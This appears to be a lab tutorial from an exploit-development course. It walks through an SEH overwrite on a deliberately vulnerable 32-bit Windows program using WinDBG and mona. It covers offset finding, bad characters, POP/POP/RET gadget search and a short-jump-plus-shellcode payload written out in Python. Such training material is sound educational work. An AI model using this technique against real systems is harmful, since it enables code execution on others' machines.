

# Tutorial — dobetter_seh_x86 (WinDBG + mona3)

## Mental model

On 32-bit Windows, each thread has an SEH chain starting at `FS:[0]`. A record is:

```text
+0  next   (nSEH)   — pointer to next EXCEPTION_REGISTRATION_RECORD
+4  handler (SEH)   — pointer to exception handler code
```

This lab places a **512-byte buffer immediately before** such a record, copies
without bounds checks, then writes to address `0` so the chain is used.



Classic exploit shape (DEP off):

```text
[ padding to nSEH ][ nSEH = short jmp ][ SEH = POP/POP/RET ][ NOPs + shellcode ]
```

1. Exception fires → OS walks SEH chain.
2. SEH points at `POP reg; POP reg; RET`.
3. That `RET` lands on nSEH.
4. nSEH short-jumps over the SEH dword into your shellcode.

```text
  high addresses
  +------------------+
  |  shellcode...    |
  |  SEH  (P/P/R)    |  <-- handler field
  |  nSEH (EB06..)   |  <-- short jump
  |  padding         |
  |  buf[512]        |
  +------------------+
  low
```

## 1. Build, mitigate, attach

```powershell
..\..\setup\scripts\Disable-TargetMitigations.ps1 -Name dobetter_seh_x86.exe
.\bin\dobetter_seh_x86.exe
```

WinDBG attach → load mona → `g`.

## 2. Crash and see SEH

```bash
export TARGET_PORT=31340
python3 exploits/02_crash.py
```

In WinDBG:

```text
!exchain
r
dps esp L20
```

`!exchain` should show a corrupted handler if the overflow reached SEH.

## 3. Offset to nSEH / SEH

```text
!mona pattern_create 800
python3 exploits/03_pattern.py
!mona findmsp
!mona pattern_offset <value from nSEH or SEH field>
```

Or use `!exchain` after a pattern crash — mona often reports nSEH/SEH offsets
directly.

Expected ballpark: **nSEH at offset 512** from start of the overflow string
(exact layout is the packed `frame.buf` + `frame.seh` in source). **Measure
anyway** if you rebuild with different compilers.

Confirm:

```bash
OFFSET=512 python3 exploits/04_nseh_seh_control.py
```

You want nSEH=`BBBB`, SEH=`CCCC` (or your markers) visible in `!exchain`.

## 4. Bad characters

Same discipline as lab 01. At least avoid `\x0a` (line end). Check `\x00` in
shellcode even though the copy is length-based.

```bash
OFFSET=512 python3 exploits/05_badchars.py
```

## 5. Find POP/POP/RET

```text
!mona seh -cpb "\x00\x0a"
# or
!mona find -type instr -s "pop eax#pop eax#ret" -cpb "\x00\x0a"
```

Prefer an address **without** bad chars inside the lab module (ASLR off).

There is also an intentional `gadget_pop_pop_ret` — still **prefer mona** so the
workflow matches real targets.

## 6. Short jump + shellcode

nSEH is only 4 bytes. Common pattern:

```python
nseh = b"\xeb\x06\x90\x90"   # jmp short +6 over SEH into sled
seh  = struct.pack("<I", pop_pop_ret)
payload = b"A"*offset + nseh + seh + b"\x90"*16 + shellcode
```

Validate under the debugger: break on the POP/POP/RET, step to the short jump,
land in NOPs.

```bash
OFFSET=512 PPR=0x00401528 python3 exploits/06_shellcode.py
```

(`PPR` must be **your** mona result.)

## 7. Egghunter (optional stretch)

If shellcode space after SEH is tight on another target, place an egghunter in
the small window and the full payload elsewhere. Practice:

```text
!mona egg -t w00t
!mona jump -r esp
```

See [exercises/EXTRA.md](exercises/EXTRA.md) E3.

## Checkpoint

- [ ] Explain nSEH vs SEH in one sentence each
- [ ] Reliable control of both fields (`!exchain`)
- [ ] POP/POP/RET from mona (not only the hint)
- [ ] Shellcode or INT3 after short jump

## Next

- [../../curriculum/08-seh-and-beyond.md](../../curriculum/08-seh-and-beyond.md)
- Vulnserver SEH-style commands ([../vulnserver-practice/](../vulnserver-practice/))
